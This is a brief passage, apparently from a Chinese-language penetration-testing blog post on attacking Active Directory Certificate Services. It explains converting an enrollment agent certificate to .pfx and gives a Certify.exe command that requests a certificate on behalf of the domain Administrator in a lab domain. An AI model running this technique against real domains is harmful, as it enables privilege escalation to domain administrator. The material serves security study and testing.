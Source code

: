 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/i7q6OAvJ9xzHX31.png)

将得到的注册代理证书使用 openssl 转换为 .pfx 格式，然后，用它来代表另一个用户（例如域管理员用户）向允许域身份验证的模板发出证书注册请求，相关命令如下。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Vuln-EnrollmentAgent-AuthorizedSignatures /onbehalfof:PENTEST\Administrator /enrollcert:Vuln-EnrollmentAgentCert.pfx /enrollcertpw:Passw0rd
```
